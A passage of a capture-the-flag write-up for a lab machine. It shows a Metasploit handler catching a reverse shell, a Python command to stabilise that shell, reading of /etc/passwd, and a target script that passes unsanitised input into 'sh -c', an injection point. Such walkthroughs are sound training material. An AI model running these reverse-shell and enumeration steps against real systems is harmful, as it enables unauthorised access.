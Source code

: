 ```bash
   0   Wildcard Target


msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989 
```

Upload malicious template to website and generate (using 'victim' machine's IP)
![[Pasted image 20210503225209.png]]
Achieve reverse shell, find out 'who we are'
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.111:8989 
[*] Command shell session 1 opened (10.10.14.111:8989 -> 10.10.10.226:52530) at 2021-05-03 22:47:36 -0600

whoami
kid
pwd
/home/kid/html
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

Stabilize shell via python (the --version check at first is to check that this will even work)
```bash
python3 --version
Python 3.8.5

python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$ 
```

Some initial poking around on the machine, we see 2 users; kid and pwd.
```bash
kid@scriptkiddie:~/logs$ cat /etc/passwd | grep 'home'
cat /etc/passwd | grep 'home'
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
kid@scriptkiddie:~/logs$ 
```

Hold on to this for additional review:
```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
kid@scriptkiddie:/home/pwn$ 
```
